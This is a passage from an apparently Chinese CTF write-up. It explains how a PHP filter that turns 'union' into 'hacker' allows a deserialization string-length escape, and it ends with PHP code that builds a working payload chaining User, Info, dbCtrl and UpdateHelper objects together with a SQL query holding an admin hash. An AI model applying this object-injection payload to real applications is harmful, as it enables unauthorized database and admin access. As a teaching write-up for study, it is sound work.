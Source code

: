 但是咱们要post的是直接serialize 这个实例化成UpdateHelper对象的$payload就可以了吗？

当然不是，来看我们post进去之后在哪里

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0157419f1bae39a2b8.png)

Post进去是变成了实例化Info对象用的参数了啊，这不是和我们的想法不一样吗？

没有关系，还记得反序列化长度逃逸吗？

他这里设置了safe函数来过滤序列化之后的敏感字符，那就给了我们空间去改变这个序列化字符串了！

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017f8b47277d6c666e.png)

他把union等替换成了hacker，不正是如同开头所说，可以直接多出一个字符吗？那我如果根据序列化的规则添加字符，不是就可以多还原一个对象了吗？

多一个对象你得添加这些东西

“s:1:”1″;你要的对像序列化字符串;

你要的对象序列化字符串已经有了，就是咱们辛苦构造的那个new UpdateHelper，直接serialize就可以得到

但是前面这个”s:1:”1”;呢，当然也是用反序列化长度逃逸了。

怎么构造这个溢出呢，就是你需要溢出多长，就写多少个union，每一个union被替换为hacker的时候，都可以为你增加一个字符的溢出长度。

所以我们的payload有了最终版

```
$user = new User();

$user-&gt;age = 'select "1", "21232f297a57a5a743894a0e4a801fc3"';

$user-&gt;nickname = new Info("", "");

$db = new dbCtrl();

$db-&gt;password = "admin";

$db-&gt;name = "admin";

$user-&gt;nickname-&gt;CtrlCase = $db;

$payload = new UpdateHelper("", "");

$payload-&gt;sql = $user;

$payload_age = 'unionunionunionunionunionunionunionunion";s:1:"1';

$payload_nickname = '";' . serialize($payload) . '`}`';

$payload_nickname = str_repeat("union", strlen($payload_nickname)) . $payload_nickname;
```
